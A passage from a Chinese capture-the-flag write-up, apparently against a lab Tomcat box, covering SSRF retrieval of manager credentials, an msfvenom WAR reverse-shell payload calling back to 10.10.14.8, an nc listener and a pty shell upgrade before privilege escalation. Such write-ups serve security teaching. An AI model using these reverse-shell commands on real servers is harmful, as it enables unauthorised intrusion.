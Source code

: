 得到了可能是tomcat配置文件中的用户名密码。

（有一个小技巧，在端口扫描那一步，得到了不能访问的文件名，可以用ssrf去访问，来获取敏感文件。）

我们用这个口令登陆端口扫描那一步获得的地址`manager/html`


#### **获取shell**
刚刚通过ssrf获取敏感文件，从而突破防线，接下来，我们要获取一个shell。

因为主页面上有上传功能，提示：
```
deploy directory or WAR file located on server.
war file to deploy 
select war file to upload.
```
暗示了我们可以上传一个war类型的反弹shell。
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=1234 -f war > ippsec.war

`War——web归档文件，war文件用于封装web模块。web模块可以代表一个独立的web应用程序。`

- Trying

成功上传——本地nc监听80端口`nc -lnvp 1234`——浏览器访问payload地址，即可获得一个shell。

- shell中运行
 
`python -c 'import pty;pty.spawn("/bin/bash")'` 于是获得一个bash shell。

![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/12.PNG)

- find . -name "user.txt" 2>/dev/null
`/home/atanas/user.txt` 无读取选项

## 用户提权
经过之前步骤，我们获得了一个tomcat用户权限的shell，可以看到有一些文件是不允许访问的。接下来看看如何获取root权限。
